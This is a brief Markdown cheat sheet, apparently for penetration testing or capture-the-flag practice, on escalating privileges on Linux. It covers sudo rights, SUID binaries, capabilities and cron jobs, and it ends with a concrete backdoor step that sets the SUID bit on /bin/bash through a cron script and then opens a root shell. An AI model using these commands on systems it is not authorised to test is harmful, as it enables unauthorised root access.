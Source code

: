 ##### Check if Kernel / OS is out of date

Find a known CVE and its related exploits. Make sure you understand what the exploit does so as not to break anything on the server.

##### Look for programs that your user can run with sudo rights

Run `sudo -l`

Use [GTFOBins](https://gtfobins.github.io/) to find information on how binaries with sudo rights can be used.

##### Look for programs with SUID or GUID bit set

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/#+suid) to find attack vectors

##### Find binaries with *Capabilities*

```bash
getcap -r / 2>/dev/null
```

Use [GTFOBins](https://gtfobins.github.io/) to find attack vectors

##### Look for crontab vulnerabilities

```bash
cat /etc/crontab
```

If you can modify a script that is run by cron you can get root access.

e.g.

```bash
#!/bin/bash
chmod u+s /bin/bash #Set the SUID bit on /bin/bash
````
run the command

```bash
/bin/bash -p
```

to run bash in privileged mode.


